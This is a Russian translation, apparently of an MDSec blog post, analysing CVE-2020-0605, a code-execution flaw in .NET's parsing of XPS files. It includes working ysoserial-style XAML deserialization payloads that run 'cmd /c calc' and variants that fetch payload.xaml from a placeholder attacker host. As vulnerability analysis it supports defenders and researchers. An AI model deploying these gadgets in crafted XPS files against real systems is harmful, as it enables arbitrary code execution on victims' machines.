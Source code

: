 ```yaml
---
layout: post
title: Анализ CVE-2020-0605 – Выполнение произвольного кода, используя XPS файлы в .NET
category: [translations]
tag: [translation]
---
```


[Оригинал](https://www.mdsec.co.uk/2020/05/analysis-of-cve-2020-0605-code-execution-using-xps-files-in-net/)

![](/assets/images/translations/cve-net/1.png)

## Введение

Майкрософт запатчила несколько уязвимостей, связанных с десериализацией XPS файлов. Патч, для [CVE-2020-0605](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-0605), вышедший в январе 2020, не исправлял проблему полностью и в мае 2020 было выпущено еще одно обновление.  

Формат XPS предполагался, как замена PDF, но так и не получил широкого распространения. Microsoft сделала приложение XPS Viewer опциональным по-умолчанию, в последних версиях Windows (в установленных с нуля Windows 10 1083 и выше). XPS Viewer не использует .NET, для показа XPS файлов, поэтому уязвимость его не затронула. 

Запатченая уязвимость позволяла проэксплуатировать код, работающий с XPS файлами, используя .NET библиотеки.
Обнаруженные уязвимости также могут являться частью эксплуатации XAML десериализации. 

## Технический анализ

Каждый XPS файл содержит изображения, шрифты или XML данные в сжатом виде. Для обратки XML документов внутри XPS файлов, используется .NET сериализация XAML. 

Пример струтуры XPS файла:

```
File.xps\DiscardControl.xml
File.xps\FixedDocumentSequence.fdseq
File.xps\[Content_Types].xml
File.xps\Documents\1\FixedDocument.fdoc
File.xps\Documents\1\Pages\1.fpage
File.xps\Documents\1\Pages\_rels\1.fpage.rels
File.xps\Documents\1\_rels\FixedDocument.fdoc.rels
File.xps\Metadata\Job_PT-inqy3ql9shqm2dc_mcqr93k5g.xml
File.xps\Metadata\SharedEmpty_PT-cn4rss5oojtjhxzju9tpamz4f.xml
File.xps\Resources\Fonts\0D7703BF-30CA-4254-ABA0-1A8892E2A101.odttf
File.xps\Resources\Images\00F8CA61-B050-4B6A-AFEF-139AA015AC08.png
File.xps\_rels\.rels
File.xps\_rels\FixedDocumentSequence.fdseq.rels
```

Файлы, с расширениями ".fdseq", ".fdoc" и ".fpage", используют XAML сериализацию, реализованную в .NET.

Также можно использовать другие расширения, если соответствующие типы прописаны в Content_Types.xml.

Можно взять простой пейлод из [ysoserial](https://github.com/frohoff/ysoserial) и вставить в любой из этих файлов. Он будет запущен, при чтении XPS файла:

```xml
<ResourceDictionary
xmlns="http://schemas.microsoft.com/winfx/2006/xaml/presentation"
 xmlns:x="http://schemas.microsoft.com/winfx/2006/xaml"
 xmlns:System="clr-namespace:System;assembly=mscorlib"
 xmlns:Diag="clr-namespace:System.Diagnostics;assembly=system">
 <ObjectDataProvider x:Key="LaunchCalc"
 ObjectType="{x:Type Diag:Process}"
 MethodName="Start">
 <ObjectDataProvider.MethodParameters>
 <System:String>cmd</System:String>
 <System:String>/c calc</System:String>
 </ObjectDataProvider.MethodParameters>
 </ObjectDataProvider>
</ResourceDictionary>
```

Январьский патч защищал только ".fdseq" файл, что позволяло использовать уязвимость, с другим файлами.

Следующий C# код демонстрирует два примера использования XPS файлов в .NET:

```csharp
XpsDocument myDoc = new XpsDocument(@"http://[attackersite]/test.xps", FileAccess.Read);
var a = myDoc.GetFixedDocumentSequence();
```

или

```csharp
PrintQueue defaultPrintQueue = LocalPrintServer.GetDefaultPrintQueue();
PrintSystemJobInfo xpsPrintJob = defaultPrintQueue.AddJob("test", @"http://[attackersite]/test.xps", false);
```

Хочется отметить, что BAML файлы (BAML - скомпилированная версия XAML) внутри XPS не могли использоваться для эксплуатации в наших тестах, так как они вызывали внутренние ошибки.

## Уязвимые .NET библиотеки 

Методы _Load_ и _Validate_ класса _XpsValidatingLoader_ (внутренний класс System.Windows.Documents), вызывают другой приватный метод, который использует _XamlReader.Load_ и могут привести к выполнению произвольного кода, при обработке вредоносного XAML.

```
System.Windows.Documents.XpsValidatingLoader -> внутренний класс
    Load -> внутренний метод, используется в:
        System.Windows.Documents.PageContent
        System.Windows.Documents.FixedDocument
        System.Windows.Documents.DocumentReference
    Validate -> внутренний метод, используется в:
        System.Windows.Documents.FixedDocument
```

Вышеуказанные внутренние файлы классов затем используются другими классами, которые в конце концов будут доступны публично.

## XAML гаджеты

Можно использовать уязвимый код, для добавления XAML гаджетов из _ysoserial_:

Использование FixedDocumentSequence и внешнего файла:

```xml
<FixedDocumentSequence xmlns="http://schemas.microsoft.com/winfx/2006/xaml/presentation">
    <DocumentReference Source="http://[attackersite]/payload.xaml" />
</FixedDocumentSequence>
```

Использование FixedDocumentSequence и свойства Resources:

```xml
<FixedDocumentSequence xmlns="http://schemas.microsoft.com/winfx/2006/xaml/presentation" xmlns:sd="clr-namespace:System.Diagnostics;assembly=System" xmlns:x="http://schemas.microsoft.com/winfx/2006/xaml">
  <FixedDocumentSequence.Resources>
    <ObjectDataProvider MethodName="Start" x:Key="">
      <ObjectDataProvider.ObjectInstance>
        <sd:Process>
          <sd:Process.StartInfo>
            <sd:ProcessStartInfo Arguments="/c calc" FileName="cmd" />
          </sd:Process.StartInfo>
        </sd:Process>
      </ObjectDataProvider.ObjectInstance>
    </ObjectDataProvider>
  </FixedDocumentSequence.Resources>
</FixedDocumentSequence>
```

Использование FixedDocument и внешнего файла:

```xml
<FixedDocument xmlns="http://schemas.microsoft.com/xps/2005/06">
    <PageContent Source="http://[attackersite]/payload.xaml" Height="1056" Width="816" />
</FixedDocument>
```

использование FixedDocument и свойства Resources:

```xml
<FixedDocument xmlns="http://schemas.microsoft.com/xps/2005/06" xmlns:sd="clr-namespace:System.Diagnostics;assembly=System" xmlns:x="http://schemas.microsoft.com/winfx/2006/xaml">
  <FixedDocument.Resources>
    <ObjectDataProvider MethodName="Start" x:Key="">
      <ObjectDataProvider.ObjectInstance>
        <sd:Process>
          <sd:Process.StartInfo>
            <sd:ProcessStartInfo Arguments="/c calc" FileName="cmd" />
          </sd:Process.StartInfo>
        </sd:Process>
      </ObjectDataProvider.ObjectInstance>
    </ObjectDataProvider>
  </FixedDocument.Resources>
</FixedDocument>
```